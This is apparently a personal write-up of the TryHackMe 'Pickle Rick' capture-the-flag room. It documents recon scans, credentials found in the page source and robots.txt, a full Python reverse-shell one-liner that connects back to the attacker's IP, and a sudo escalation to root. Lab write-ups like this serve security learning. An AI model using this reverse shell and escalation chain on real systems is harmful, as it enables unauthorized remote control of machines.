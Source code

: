 # Pickle Rick
+ Link: https://tryhackme.com/r/room/picklerick
+ Type: Challenge
  
+ Target IP Address: 10.10.162.36
+ AttackBox IP Address: 10.10.139.230

## Tools
+ NMAP
+ Gobuster
+ enum4linux
+ Dirb
+ Netcat

## External Resources
+ https://stawm.design.blog/2020/05/17/pickle-rick-thm-writeup/
+ https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Task 01 | Pickle Rick
1. `nmap -sV 10.10.162.36` revealed 2 open ports with the services: OpenSSH and Apache.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/01.png)
  
2. Went to http://10.10.162.36 to inspected its source code. Found a username "R1ckRul3s".
3. `gobuster dir -u http://10.10.162.36 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt` revealed a few directories: "/assets" and "/robots".  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/02.png)
  
4. Looked through the found directories. http://10.10.162.36/robots.txt lead to a possible password "Wubbalubbadubdub".
5. I tried `dirb http://10.10.162.36`, `enum4linux -a 10.10.162.36`, and Gobuster with different word lists, but found nothing noteworthy.
6. After trying `gobuster dir -u http://10.10.162.36 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -x html,php` I found a few more directories: "/login.php" and "/portal.php".  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/03.png)
  
7. Both of the newly discovered webpages went to the same login page. So, I tried out the username and password and got access. Upon logging into "Rick Portal" I found that most webpages were locked, except a place where you can input commands.
8. While I could `ls`, the `cat`command was disabled. So, I tried to see if there was a way I could gain a reverse shell.
9. Using the command `which python3` I was able to comfirm that the target machine did have Python3 on it.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/04.png)
  
10. I started up a Netcat listener with `nc -lvp 4444` on the AttackBox.
11. On the "Command Panel" I entered a modified command from pentestmonkey, `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.139.230",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`, to start the reverse shell. Sucess!  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/05.png)
  
12. On ther terminal with the listener, I ran `ls` to see what's in the directory and `cat Sup3rS3cretPickl3Ingred.txt` to get ingredient #1.
13. After looking around in the file system, I found a user directory labeled "rick" and changed to it.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/06.png)
  
14. `ls` to see what's in the directory and `cat "second ingredients"` to get ingredient 2.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/07.png)
  
15. `whoami` and `sudo -l` to see what commands the "www-data" user could execute.
16. `sudo bash -i` to get root access.
17. Moved to "/root", `ls`, and found the final ingredient.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room05/Screenshots/08.png)
  
## Learned
+ Gobuster's `-x` flag, which allows someone to search for specific file extensions. Can be used to search for common website file extensions (i.e. html and php).
+ A website for reverse shell commands, https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.